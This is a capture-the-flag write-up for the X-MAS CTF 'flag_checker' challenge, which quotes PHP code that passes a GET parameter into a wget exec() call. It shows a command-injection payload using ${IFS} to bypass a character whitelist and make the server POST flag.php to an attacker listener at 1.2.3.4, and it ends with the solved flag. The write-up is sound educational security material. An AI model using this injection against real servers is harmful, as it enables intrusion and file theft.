

flag_checker
=========

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n)), Will Green ([Ducky](https://github.com/wlg0005))
-------------------------------------------------------------

Challenge Description
---------------------

```
This new service checks if your flags are valid. What could possibly go wrong?
```

Overview
--------

We are presented with the following PHP code on initially visiting the challenge site:

```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```

It appears that a value is passed via the `flag` GET parameter as such:

```
http://challs.xmas.htsp.ro:3001?flag=...
```

That value is then passed into `checkFlag($flag)`. If `checkFlag($flag)` fails, the program halts, but if it succeeds, our `flag` parameter is passed into `getFlag($flag)`. 

The function `checkFlag($flag)` seems to be checking to make sure our value for `flag` only contains characters within the following string (via a case-insensitive compare):

```
FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}
```

If our `flag` parameter contains any character not in that string, we do not get to the `getFlag($flag)` function.

Say we get past `checkFlag($flag)`. What does `getFlag($flag)` do?

On the surface, it seems to concatenate our input to a URL (`https://kuhi.to/flag/`) and then attempts to `wget` the URL using an `exec()` call. If the `wget` command fails and a file with the title of our `flag` parameter doesn't exist on the website, it just `echo()`s 'Nope'. If `wget` succeeds, it `echo()`s 'Maybe'. 

Solution
--------

It is generally *very* bad practice to have an `exec()` function called in a PHP program, especially if it contains user-supplied data. 

Our attack here is starting to look like command injection.

There is one slight problem, however. Because of `checkFlag($flag)`, we are limited in the characters we can use. Most notably, we are not allowed to use a space character. 

We are, however, allowed to use special characters such as `$`, `{`, `}`, and `.`, as well as all integers.

The `${}` combination is most interesting, as bash allows for something called [parameter and variable expansion](https://tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_04.html). 

By inserting variable names inside `${...}`, you can get a bash shell to add the values of those variables into your command.

After doing some research on [built-in bash variables](https://tldp.org/LDP/abs/html/internalvariables.html), we discovered the `$IFS` variable. 

IFS, short for 'internal field separator', "determines how bash recognizes word boundaries" in strings and defaults to whitespace. 

This means that we can now add a space character in our `flag` parameter just by inserting `${IFS}`. Because we didn't want to get too deep and try to figure out how to insert a semicolon and somehow get more than we needed here, we decided to try POSTing the flag from the challenge server to our own listener. For demonstration purposes, we will say our server IP is 1.2.3.4. 

Since `wget` allows for multiple URLs in one line, we can try to get the server to execute the following:

```bash
wget -q -O - https://kuhi.to/flag/ --post-file flag.php 1.2.3.4
```

Again, since we dont have access to an explicit space character, we will have to use the `${IFS}` expansion. So our `flag` value should be:

```
${IFS}--post-file${IFS}flag.php${IFS}1.2.3.4
```

After setting up a listener on our server, we can visit the following URL:

```
http://challs.xmas.htsp.ro:3001/?flag=${IFS}--post-file${IFS}flag.php${IFS}1.2.3.4
```

Checking out the HTTP POST request listener on our server, we can see flag come through:



Flag: `X-MAS{s0_fL4g_M4ny_IFS_bb69cd55f5f6}`